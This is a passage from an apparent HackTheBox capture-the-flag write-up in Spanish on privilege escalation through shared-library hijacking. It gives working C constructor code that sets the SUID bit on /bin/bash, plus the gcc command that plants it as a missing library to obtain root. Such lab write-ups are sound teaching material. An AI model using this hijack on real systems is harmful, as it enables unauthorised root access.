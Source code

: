 ## Creación librería compartida maliciosa

**/home/rektsu/.config/libcounter.so**

Un directorio en una ruta que pertenece al usuario **rektsu**, con el que tenemos shell. Checkeando la ruta de la librería vemos que no existe, así que procedemos a crear uno malicioso.

Primero escribimos el exploit en `C`.

> El `__attribute__((constructor))` al definir la función `exploit()` es necesario porque en C, está construcción se utiliza para indicar que una función debe ejecutarse automáticamente antes de que se ejecute la función `main()`. De lo contrario (lo he probado) no funcionará.

```c
#include <stdio.h>
#include <stdlib.h>
void exploit()__attribute__((constructor));
void exploit()
{
    system("chmod u+s /bin/bash");
}
```

Y lo compilamos como librería compartida con `gcc`.

```bash
gcc -shared -fPIC -o /home/rektsu/.config/libcounter.so exploit.c
```

Corremos el binario, introducimos la contraseña y si todo va bien `/bin/bash` tendrá permisos SUID y podremos obtener una shell como root.

![](@assets/HackTheBox/Zipping/root.png)

# Referencias

- [Zip Based Exploits: Zip Slip and Zip Symlink Upload](https://levelup.gitconnected.com/zip-based-exploits-zip-slip-and-zip-symlink-upload-21afd1da464f)
- [Bypass File Upload Restrictions on Web Apps to Get a Shell ](https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/)
- [Linux Shared Library Hijacking](https://xavibel.com/2022/09/06/linux-shared-library-hijacking/)
- [PayloadsAllTheThings - Upload Insecure Files](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files#upload-tricks)

